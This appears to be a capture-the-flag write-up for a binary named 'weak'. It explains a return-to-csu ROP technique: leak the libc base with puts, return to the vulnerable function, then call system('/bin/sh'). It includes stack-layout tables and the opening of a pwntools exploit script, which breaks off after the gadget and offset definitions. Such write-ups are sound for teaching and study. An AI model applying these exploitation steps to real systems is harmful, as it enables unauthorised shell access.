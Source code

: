 Since the binay does not include ``'/bin/sh'`` string and ``system`` function, we have to make use of ``libc``.  And we can leak its base address by using  ``puts`` function.

But here's the problem: the binary doesn't have any useful gadgets. Which leads us to one solution: "using csu"

By using two gadgets from ``__libc__csu_init``, we can take control of ``edi``, ``rsi``, ``rdx`` registers, which is more than enough for using ``puts`` and ``system`` function.

### 0-3. Scenario
Following is the exploit scenario I came up with:
1. leak ``libc`` address with ``puts``
2. return to ``vuln`` function = take another input
3. ``system('/bin/sh')``

### 0-4. Exploit
Our first input stack should look like this:
<table>
	<tr><td>dummy data : 0x18 bytes</td></tr>
	<tr><td>return address for vuln ( csu_pop )</td></tr>
	<tr><td>rbx ( 0 )</td></tr>
	<tr><td>rbp ( 1 )</td></tr>
	<tr><td>r12 >> *return address for csu_mov ( puts@got )</td></tr>
	<tr><td>r13 >> edi ( puts@got )</td></tr>
	<tr><td>r14 >> rsi ( 0 )</td></tr>
	<tr><td>r15 >> rdx ( 0 )</td></tr>
	<tr><td>return addresss for csu_pop ( csu_mov )</td></tr>
	<tr><td>dummy data to go through csu_pop : 8*7 bytes ( 0 )</td></tr>
	<tr><td>return address for csu_pop_2 ( vuln )</td></tr>
</table>

after the first input, we should have the ``libc`` base address. Which allows us to make use of ``libc``

<br>
second input :
<table>
	<tr><td>dummy data : 0x18 bytes</td></tr>
	<tr><td>return address for vuln ( pop_rdi_ret )</td></tr>
	<tr><td>rdi ( address of '/bin/sh' )</td></tr>
	<tr><td>return address for pop_rdi_ret ( system )</td></tr>
</table>
<br>

exploit code:
```python
from pwn import *
#context.log_level='debug'

bin = ELF('./weak')
lib = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

# csu gadgets
csupop = 0x400636
csumov = 0x400620

#lib addresses
putsoff = lib.symbols['puts']
binshoff = 0x18cd57
poprdioff = 0x174cc5
systemoff = lib.symbols['system']

#bin addresses
vuln = bin.symbols['vuln']
putsplt = bin.plt['puts']
```